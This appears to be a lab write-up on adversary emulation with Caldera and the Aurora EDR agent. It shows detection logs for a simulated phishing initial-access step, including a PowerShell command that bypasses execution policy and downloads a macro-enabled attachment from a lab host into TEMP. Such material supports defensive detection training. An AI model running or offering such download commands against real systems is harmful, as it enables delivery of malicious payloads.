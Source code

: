 Rerun the operation and wait till it finishes, then review the logs. If you prefer to run abilities individually and review their logs. Create a new operation and check **Pause on Start.** Then run the operation by clicking on **Run 1 Link, w**hich will run one ability and pause when it finishes

![image.png](attachment:e37695f8-81e8-432d-9c2c-54341985bd6d:image.png)

If Aurora logs are not showing, check the expiration time; if it has expired, change the machine time. Then restart it from **services.msc**

![image.png](attachment:925cd789-5286-48bc-84d9-b4f5359f93eb:image.png)

Machine time after I change it.

![image.png](attachment:84a7a330-a915-4a2c-9da1-e09b32e217dd:image.png)

Check List of [EventID-AuroraAgent](https://aurora-agent-manual.nextron-systems.com/en/latest/usage/event-id-list.html)

### Initial Access: Download Macro-Enabled Phishing Attachment

EventID: 1

```
 RuleName - 
  UtcTime 2025-03-31 10:51:46.187 
  ProcessId 1012 
  Image C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe 
  Company Microsoft Corporation 
  OriginalFileName PowerShell.EXE 
  CommandLine powershell.exe -ExecutionPolicy Bypass -C "$url = 'http://10.10.39.5:8080/PhishingAttachment.xlsm'; Invoke-WebRequest -Uri $url -OutFile $env:TEMP\PhishingAttachment.xlsm" 
  ParentProcessId 5464 

```

File Create EventID 11

```
UtcTime 2025-03-31 10:51:46.493 
  ProcessGuid {c5d2b969-73c2-67ea-4501-000000002901} 
  ProcessId 1012 
  Image C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe 
  TargetFilename C:\Users\Administrator\AppData\Local\Temp\2\PhishingAttachment.xlsm 
  CreationUtcTime 2025-08-08 09:14:32.351 
```

Network Connection Detection: EventID 3

```
 RuleName Proxy 
  UtcTime 2025-08-24 10:52:24.435 
  ProcessId 1012 
  Image <unknown process> 
  User - 
  Protocol tcp 
  Initiated true 
  SourceIsIpv6 false 
  SourceIp 10.10.4.48 
  SourceHostname VICTIM.eu-west-1.compute.internal 
  SourcePort 49974 
  SourcePortName - 
  DestinationIsIpv6 false 
  DestinationIp 10.10.39.5 
  DestinationHostname ip-10-10-39-5.eu-west-1.compute.internal 
  DestinationPort 8080 
  DestinationPortName - 

```